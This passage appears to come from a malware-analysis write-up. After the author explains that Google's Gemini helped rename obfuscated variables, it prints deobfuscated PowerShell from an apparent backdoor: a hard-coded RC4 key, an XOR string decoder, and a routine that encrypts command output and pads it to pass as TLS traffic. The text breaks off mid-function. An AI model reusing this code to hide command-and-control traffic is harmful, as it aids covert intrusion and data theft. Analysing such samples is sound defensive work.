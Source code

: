 ```powershell
```

Thankfully, there are PowerShell deobfuscators online, made to replace a confusing series of characters with more unique names. For this, I asked Google's Gemini to help sort the labels. Here is the same snippet, now unscrambled:

```powershell
# Original: $BBB88B8B888BBB88
$Rc4EncryptionKey = 0xf1, 0x6e, 0xcd, 0xc6, 0x79, 0x4c, 0x66, 0xd1, 0x02, 0xf8, 0x33, 0xc4, 0x86, 0xe7, 0xa4, 0x35, 0x8d, 0x69, 0xbd, 0xd2, 0x1d, 0x50, 0xf5, 0xfb, 0xdf, 0xec, 0xaf, 0x0b, 0x9e, 0x53, 0xa4, 0xd3

# Original: function IIlIlIlIllIIllIl
function DecryptXorString {
    param(
        [int[]]$EncryptedIntArray, # Original: $BBBB8888BBBBB8BB
        [int]$XorKey # Original: $BB8BB8B8BBB8B8B8
    )
    $DecryptedString = "" # Original: $B8B8B8B8B8B8B8BB
    foreach ($EncryptedInt in $EncryptedIntArray) { # Original: $B888BB88888BBBBB
        $DecryptedString += [char]($EncryptedInt -bxor $XorKey)
    }
    return $DecryptedString
}

# Original: function lIIIlllIIIIllllI
function RC4DecryptEncrypt {
    param (	
        [byte[]]$Rc4Key, # Original: $B8BBB8B8BB8BBB88
        [byte[]]$InputDataBytes # Original: $BBB8BBB8B88B88B8
    )
    $Sbox = 0..255 # Original: $BBB88BB88BB8BBB8
    $J = 0 # Original: $B888B8BB888BB88B

    # KSA (Key-Scheduling Algorithm)
    for ($I = 0; $I -lt 256; $I++) { # Original: $B8BB8BBB8BB8BBBB
        $J = ($J + $Sbox[$I] + $Rc4Key[$I % $Rc4Key.Length]) % 256
        $Sbox[$I], $Sbox[$J] = $Sbox[$J], $Sbox[$I] # Swap
    }

    # PRGA (Pseudo-Random Generation Algorithm)
    $I = 0 # Original: $B8BB8BBB8BB8BBBB
    $J = 0 # Original: $B888B8BB888BB88B
    $OutputBytes = @() # Original: $BBBBB8BBB8BBB88B

    foreach ($ByteToProcess in $InputDataBytes) { # Original: $BBBB88888B888BBB
        $I = ($I + 1) % 256
        $J = ($J + $Sbox[$I]) % 256
        $Sbox[$I], $Sbox[$J] = $Sbox[$J], $Sbox[$I] # Swap
        $KeystreamByte = $Sbox[($Sbox[$I] + $Sbox[$J]) % 256] # Original: $B88BBB888BBB88B8
        $OutputBytes += ($ByteToProcess -bxor $KeystreamByte)
    }

    return, $OutputBytes
}

# Original: function lllIIlIIlIllllll
function PrepareTlsAppData {
    param ([string]$CommandOutputString) # Original: $B888BBBBB8B8B8BB
    $Utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($CommandOutputString) # Original: $B888B8B8B88B8BB8
    $EncryptedOutput = (RC4DecryptEncrypt -Rc4Key $Rc4EncryptionKey -InputDataBytes $Utf8Bytes) + (0x02, 0x04, 0x06, 0x08) # Original: $BBBB8888BBBBB8BB
```